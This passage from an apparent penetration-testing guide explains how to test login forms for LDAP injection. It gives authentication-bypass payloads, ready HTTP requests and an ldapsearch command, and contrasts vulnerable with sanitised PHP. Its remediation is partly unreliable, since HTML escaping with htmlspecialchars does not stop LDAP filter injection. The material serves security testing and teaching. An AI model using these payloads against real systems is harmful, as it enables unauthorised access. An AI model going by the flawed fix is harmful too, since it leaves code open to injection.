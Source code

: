 **Tip**: Save the input vector list in a report.

### 2. Test for LDAP Authentication Injection

**Objective**: Verify if authentication forms are vulnerable to LDAP injection.

**Steps**:
1. Identify login forms:
   - Look for username/password fields or SSO endpoints.
2. Inject payloads:
   - Use Burp Repeater:
     ```http
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     username=admin)(uid=*&password=test
     ```
   - Use HTTPie:
     ```bash
     http POST http://example.com/login username="admin)(uid=*" password=test
     ```
3. Check responses:
   - Look for successful login or LDAP errors (e.g., `Invalid credentials`).
   - Test: `*)(|(uid=admin))`.
4. Use ldapsearch to simulate:
   ```bash
   ldapsearch -x -h ldap.example.com -b "dc=example,dc=com" "(uid=admin)(uid=*)"
   ```

**Example Vulnerable Code (PHP)**:
```php
$ldap = ldap_connect("ldap://ldap.example.com");
$filter = "(uid=$username)";
ldap_search($ldap, "dc=example,dc=com", $filter);
```
Test: `username=admin)(uid=*`
Result: Logs in without valid credentials.

**Example Secure Code (PHP)**:
```php
$username = preg_replace('/[^a-zA-Z0-9]/', '', $username);
$ldap = ldap_connect("ldap://ldap.example.com");
$filter = "(uid=$username)";
ldap_search($ldap, "dc=example,dc=com", $filter);
```
Test: No login.

**Remediation**:
- Sanitize inputs:
  ```php
  $username = htmlspecialchars($username, ENT_QUOTES, 'UTF-8');
  ```
- Use parameterized LDAP queries (if supported) or strict validation.

**Tip**: Save authentication bypass evidence in a report.
